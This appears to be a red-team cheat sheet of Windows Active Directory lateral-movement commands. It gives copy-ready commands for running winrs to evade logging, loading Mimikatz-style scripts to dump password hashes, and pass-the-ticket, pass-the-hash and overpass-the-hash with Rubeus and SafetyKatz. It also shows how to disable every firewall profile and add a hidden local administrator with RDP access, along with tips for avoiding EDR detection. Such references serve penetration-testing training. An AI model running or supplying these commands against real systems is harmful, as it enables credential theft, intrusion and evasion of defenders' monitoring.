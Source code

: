 ## Winrs
>**ℹ️ Info:**
>We can use winrs in place of PSRemoting to evade the logging (and still reap the benefit of 5985 allowed between hosts).


**With local credentials:**
```cmd
winrs -remote:server1 -u:.\administrator - p:Pass@1234 cmd
```

**With domain credentials:**
```cmd
winrs -remote:server1 -u:contoso.local\administrator - p:Pass@1234 cmd
```
---
## PowerShell Remoting

**Connect to a machine:**
```powershell
Enter-PSSession -Computername <COMPUTERNAME>
```

**Connect to a machine and save the session:**
```powershell
$sess = New-PSSession -Computername <COMPUTERNAME>
Enter-PSSession $sess
```

**Connect to a machine with credentials and save the session:**
```powershell
$passwd = ConvertTo-SecureString 't7HoBF+m]ctv.]' -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential ("us-mailmgmt\administrator", $passwd)
$mailmgmt = New-PSSession -ComputerName us-mailmgmt -Credential $creds
Enter-PSSession $mailmgmt
```

**Load script to a machine:**
```powershell
Invoke-Command -FilePath C:\AD\Tools\Invoke-Mimi.ps1 -Session $sess
```

**Execute command or scriptblock:**
```powershell
Invoke-Command –Scriptblock ${function:Get-PassHashes} -Session $sess
```

**Execute locally loaded function to a machine:**
```powershell
Invoke-Command -ScriptBlock ${function:Get-PassHashes} -Session $sess -ArgumentList
```

--- 
## Pass-The-Ticket
Injects a TGT into the current session to impersonate the owner of it

### Rubeus
**Inject TGT into current session:**
```cmd
Rubeus.exe ptt /ticket:doIFsjCCBa6gAwIBBaEDAgEWooI...
```

>**ℹ️ Info:**
>More OPSEC-friendly than OverPass-The-Hash since we are reusing a TGT instead of asking for a new one.

---
## Pass-The-Hash
Use a NTLM hash to authenticate against NTLM.
### SafetyKatz

**Spawn a cmd session:**
```cmd
SafetyKatz.exe '"sekurlsa::pth /domain:contoso.local /user:Administrator /ntlm:917ecdd1b4287f7051542d0241900cf0"'
```

**Spawn a powershell session:**
```cmd
SafetyKatz.exe '"sekurlsa::pth /domain:contoso.local /user:Administrator /ntlm:917ecdd1b4287f7051542d0241900cf0 /run:powershell.exe"'
```

---
## OverPass-The-Hash
Use a NTLM hash or AES key to authenticate against kerberos.

### Rubeus

**With an NTLM hash (Usually flagged by EDRs):**
```cmd
Rubeus.exe asktgt /domain:contoso.local /user:administrator /rc4: /ptt
```

**With an AES-128 key (Admin cmd required):**
```cmd
Rubeus.exe asktgt /domain:contoso.local /user:administrator /aes128: /ptt
```

**With an AES-256 key (Admin cmd required):**
```cmd
Rubeus.exe asktgt /domain:contoso.local /user:administrator /aes256: /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
```

>**ℹ️ Info:**
>AES-256 key is more OPSEC-friendly than the others.

---
## RunAs

**Run network related stuff with password:**
```cmd
runas /netonly /user:techcorp.local\MSOL_16fb75d0227d cmd.exe
```

## Firewall

**Disable firewall:**
```cmd
Set-NetFirewallProfile -Profile Domain,Public,Private -Enabled False

powershell.exe -c 'Set-NetFirewallProfile -Profile Domain,Public,Private -Enabled False'
```

## RDP

**Add user to local admin and RDP group and enable RDP on firewall:**
```cmd
net user <USERNAME> <PASSWORD> /add /Y  && net localgroup administrators <USERNAME> /add && net localgroup "Remote Desktop Users" <USERNAME> /add && reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f && netsh advfirewall firewall set rule group="remote desktop" new enable=Yes
```